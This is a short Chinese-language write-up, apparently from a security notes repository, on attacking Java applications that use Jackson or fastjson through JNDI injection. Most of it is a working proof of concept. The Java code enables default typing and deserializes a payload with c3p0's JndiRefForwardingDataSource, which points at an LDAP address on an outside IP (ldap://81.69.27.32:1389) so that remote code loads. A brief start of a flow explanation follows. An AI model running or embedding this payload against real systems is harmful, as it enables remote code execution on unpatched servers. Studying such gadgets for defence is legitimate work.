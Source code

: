 当目标含有fastjson,jackson这些可以调用setter的组件,而且目标可以出网的时候,可以进行jndi攻击(jndi适用于jdk8u191以下支持reference情况)

### Poc

```java
package c3p0;

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.*;

class Person {
    public Object object;
}

public class JNDIPoc {
    public static void main(String[] args) throws IOException {
        String poc = "{\"object\":[\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",{\"jndiName\":\"ldap://81.69.27.32:1389/uhbrqp\", \"loginTimeout\":0}]}";
        System.out.println(poc);
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc, Person.class);
    }
}
```

流程:

首先哦通过setJndiName来对JndiName进行一个赋值

![image-20211122202306312](img/image-20211122202306312.png)


